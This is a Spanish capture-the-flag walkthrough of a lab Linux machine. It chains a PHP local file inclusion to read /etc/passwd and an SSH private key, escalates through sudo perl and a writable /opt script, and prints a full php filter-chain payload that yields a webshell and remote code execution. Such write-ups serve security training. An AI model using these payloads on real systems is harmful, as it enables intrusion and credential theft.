Comenzamos lanzando un ping para confirmar que tenemos conectividad con la máquina víctima.



Confirmamos conectividad. A su vez, parece una máquina Linux por el ``TTL``, aunque esto podría haberse modificado a propósito..

Comenzamos realizando un escaneo de puertos TCP abiertos de la máquina víctima con ``nmap``:

``sudo nmap 172.17.0.2 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``



Tenemos abiertos los puertos 22 y 80. Gracias al ``well-known ports`` podemos pensar que es SSH y HTTP, respectivamente. No obstante, realizamos otro escaneo sobre estos puertos abiertos para saber con más profundidad a lo que nos estamos enfrentando.

``nmap 172.17.0.2 -sCV -p22,80 -oN target``


Confirmamos lo supuesto:
- p22: OpenSSH 9.6
- p80: Apache 2.4.58

Dado que no tenemos ningunas credenciales para conectarnos por SSH, ni usuario al que poder hacer fuerza bruta, y tampoco es una versión vulnerable a ``username enumeration``, procedemos a investigar el p80:



Puede que exista algún usuario relacionado con ``TLuisillo_o``. Y me llama la atención ese ``[!] ERROR [!]`` que aparece abajo a la izquierda. Por lo demás, aunque revisemos el código fuente, no parece existir nada interesante, salvo ese ``[!] ERROR [!]``:



Está fuera del código html y sólo aparece en el ``index.php``, por lo que muy probablemente es el resultado de código php que no estamos viendo.

Se procede a hacer fuerza bruta de directorios con ``feroxbuster`` y ``directory-list-2.3-medium.txt`` como diccionario.

``feroxbuster -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x php,html,asp,apsx -C 400,404,500,503 -o 80 -r ``

No parece sacarnos nada interesante, por lo que se decide intentar fuerza bruta de parámetros con ``wfuzz`` y ``burp-parameter-names.txt`` como diccionario.

``fuzz -c --hc=404 --hl=62 -t 150 -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt 'http://172.17.0.2/index.php?FUZZ=/etc/hosts'``



Ojo. El parámetro ``secret`` existe.



Y ya no aparece ese ``[!] ERROR [!]``, sino el contenido del ``/etc/hosts``.

Y si lo vemos a través del código fuente:

Esto son muy buenas noticias. 

Si intentamos ver el ``/etc/passwd``:

``view-source:http://172.17.0.2/index.php?secret=/etc/passwd``



Confirmamos la existencia de dos usuarios: ``luisillo`` y ``vaxei``.

Nos guardamos estos dos usuarios y los añadimos a ``users.txt``:



Aquí se abren varias vectores:  
- Intentar hacer fuerza bruta con ``hydra`` al servicio ssh con estos usuarios  y ``rockyou.txt`` como diccionario.
- Intentar su propio nombre como contraseña.
- A través del LFI, enumerar e intentar encontrar alguna id_rsa u otros archivos de utilidad.

Por ejemplo, para saber realmente cómo funciona por detrás el parámetro ``secret``, podemos:
- A través de wrapper ``filter.base64`` sacar el index.php.
- Traernos a nuestra máquina víctima todo el contenido.
- Decodificar el base64.
- Ver qué función de php está dentro del parámetro secret.

Pues vamos a ello.

``view-source:http://172.17.0.2/index.php?secret=php://filter/read=convert.base64-encode/resource=index.php``


Nos copiamos la data e incluimos en: ``base64.data``.

Acto seguido, decodificamos:

``cat base64.data | base64 -d > index.php``

Ahora podemos inspeccionar el código php:



Aquí tenemos el origen de ese ``[!] ERROR [!]`` que veíamos inicialmente. A su vez, vemos que el parámetro ``secret`` está utilizando la función ``include``, que sabemos que es vulnerable y está permitiendo el LFI.

Vale, tenemos acceso a cualquier archivo del sistema que el usuario ``www-data`` (el que esté corriendo por detrás) tenga acceso. Si investigamos en posibles rutas interesantes, se termina encontrando:

``view-source:http://172.17.0.2/index.php?secret=/home/vaxei/.ssh/id_rsa``



Bingo. 

- Nos copiamos el contenido de la id_rsa que hemos encontrado:


- Cambiamos sus permisos a sólo lectura de propietario: ``chmod 400 id_rsa``
- La utilizamos para conectarnos por SSH: ``ssh -i id_rsa vaxei@172.17.0.2``



Estamos dentro de máquina víctima como el usuario ``vaxei``.

# PRIVESC

Se prueban escaladas típicas en Linux:

``sudo -l``



Estupendo. Podemos hacer uso del binario ``/usr/bin/perl`` como el usuario ``luisillo`` sin proporcionar su contraseña, por lo que:

- https://gtfobins.github.io/gtfobins/perl/



``sudo -u luisillo perl -e 'exec "/bin/sh"'``



Hemos pivotado correctamente al usuario ``luisillo`` desde el usuario ``vaxei``.

Si volvemos a probar escaladas típicas:

``sudo -l``



Curioso. Podemos hacer uso del script en python ``/opt/paw.py`` como root sin proporcionar su contraseña.
 
Vamos a echar un vistazo a dicho script:

``cat /opt/paw.py``



No obstante, si nos fijamos en los permisos de ``/opt``:

``ls -l /``



Tenemos permisos de escritura/modificación en ``/opt``, lo cual no debería ser así. Esto significa que podemos borrar ``paw.py`` y generar otro a nuestro antojo:

- Nos guardamos el script original:



- Generamos ``paw.py`` malicioso y le damos permisos de ejecución:



- Ejecutamos ``paw.py`` como root sin proporcionar su contraseña:



Hemos escalado correctamente a root.

_________________

# INTRUSIÓN ALTERNATIVA.

Aquí aparece la maravillosa herramienta: https://github.com/synacktiv/php_filter_chain_generator

Esta herramienta nos permite tener RCE a través de ``wrappers`` tipo ``filter``.

Imaginemos que queremos una webshell, podemos hacer:

``python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]); ?>'``



Nos saca un output enorme. Lo que tenemos que hacer es invocar el parámetro vulnerable, en este caso ``secret``, e igualarlo a toda la data que nos ha dado la herramienta. A su vez, como queremos hacer uso del parámetro ``cmd`` para ejecutar comandos, podemos comenzar con un simple ``id`` para comprobarlo:

``view-source:http://172.17.0.2/index.php?secret=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp&cmd=id``



Bingo. Confirmamos RCE. Y de paso, confirmamos el motivo por el que antes pudimos ver el contenido del  directorio personal del usuario ``vaxei`` y acceder a su ``id_rsa`` dentro de ``/home/vaxei/.ssh`` desde un contexto de ejecución de ``www-data``.
